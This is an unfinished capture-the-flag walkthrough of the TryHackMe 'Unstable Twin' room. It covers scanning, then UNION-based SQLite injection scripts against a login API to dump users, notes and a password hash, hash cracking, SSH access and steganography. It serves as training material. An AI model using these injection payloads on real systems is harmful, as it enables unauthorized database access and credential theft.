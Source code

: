 ***STILL N THE WORKS!***

Room: [Unstable Twin](https://tryhackme.com/room/unstabletwin)

Difficulty: Medium

Overview:



-------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we will start off our target enumeration by doing "Nmap" scan:

nmap -sV -sC -A -p- 10.10.121.127 -oN nmap.txt -T4

10.10.121.127 - room ip address

![nmap](https://user-images.githubusercontent.com/76821053/119569292-74feab80-bda6-11eb-94d8-abcdc12f2fa0.png)

There are two ports open:

22    →  OpenSSH 8.0

53    →  http server nginx 1.14.1

Lets check for hidden directories with a "Gobuster" scan:

![gobuster](https://user-images.githubusercontent.com/76821053/119570948-a8dad080-bda8-11eb-9959-bbf3511f6684.png)

The website doesn't have anything..

![emptyweb](https://user-images.githubusercontent.com/76821053/119571098-d9bb0580-bda8-11eb-8dfe-9c5d55e7122c.png)

It is empty, besides the /info directory i found with gobuster:

![webinfo](https://user-images.githubusercontent.com/76821053/119571268-0d962b00-bda9-11eb-9135-8e63697dd282.png)

Using "curl" we will try to get more information from the http headers:



Found the build version number for Vincent server:

![curlxget](https://user-images.githubusercontent.com/76821053/119571524-5a7a0180-bda9-11eb-8536-6795514063ec.png)

Since there was a json file in the directory i did a GET request with option -H to accept application/json:

![jsonfilecurl](https://user-images.githubusercontent.com/76821053/120120298-3432d800-c194-11eb-9f09-3058d585b789.png)

Found a new build number and a new server name.

Now i know that this server is vulnerable to sql injection, i need to find a way point to exploit it.

The server talks about “login API” so i try to see if there is anykind of vulnerability there:

 
 
 Know i know that i can reach /api/login and that if i ran the command 2 times it gives me different ouputs. Meaning that there is 2 servers probably and they read from diferent builds 1.3.4-dev and 1.3.6-final.

To start testing for vulnerabilities i wrote a simple python script:

Payloadallthethings:



I started editing the script doing:

1' UNION SELECT 1--+ '"
1' UNION SELECT 1,2--+ '"
1' UNION SELECT 1,2,3--+ '"
1' UNION SELECT 1,2,3,4--+ '"

till i got some kind of response from the server.. even dough the server was not ouputing errors and i found something.


import requests

payload = "1' UNION SELECT 1,2--+ '"
url = ' http://unstabletwin.thm/api/login'

data = {"username": payload , "password": 12345}
r = requests.post(url, data)
print(r.text)



I ran the script and got a call back:



Again i had to run the script twice, because there is 2 servers.

So i found that the server has 2 tables. Now i need to know what is their names.

From payloadallthethings sqlite injection:



To find version of mysql:



I need to modify 



To display the names of the tables i used the Integer/string based - Extract table name from payloadall..

import requests

payload = ["1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '"]
url = ' http://unstabletwin.thm/api/login'

data = {"username": payload , "password": 12345}

for i in payload:
        r = requests.post(url, data)
        print(r.text)
        r = requests.post(url, data)
        print(r.text)
        
        
When i combine the new string injection i needed to had number 1, like so:

original: 

SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

altered separated by a “,” :

SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

merged strings like so:

1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '


I also created a for loop to make the request two times, so in don't have to rerun the script . 
 
 



Now to read the contents of the tables i will again modify the script and to be able to read the columns:



I modified the string like so:

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--+ '

Added the 1, and substitute the ‘table_name’ for the users which was the 1 table name






With this information i can now reach its contents.

To list users and passwords:

UNION SELECT username, password FROM users

then merged in the script:

1' UNION SELECT username, password FROM users--+








Now the same process to read the contents of "notes":

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'--+





To extract information:

string:

SELECT notes FROM notes

merged:

1' UNION SELECT 1, notes FROM notes--+





Found a password:

eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

I used hash-identifier:



I used john the ripper to decrypt the hash:



i could also use crackstation.net to do this:



Password: experiment

Now that i have a password i will use ssh to connect to the target machine.

I assume that the user that has this password is mary_ann, because when i was enumerating the server mary_ann didn't had a colour but instead a ..continue..



I ran linpeas, did manual enumeration and only found a clue:



the content of server_notes.txt:



The api must have more information hidden so i used curl to try and download the images hinted on the message:

curl -v http://unstabletwin.thm/get_image?name=vincent --output vincent.jpg 












I did this command for every user and downloaded all the files in .jpg format.

example images:



Since they were all images i used steghide to see if there was any hidden content and i was right:



I read the contents of each extracted files:



There was a tip about arranging the children by the colours of the rainbow.



So i merged a big string from contents of each extracted file in rainbow colour order from red to green:

1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1

I tried many different decoders till i find the right one at https://gchq.github.io/CyberChef/:



The string was base62.
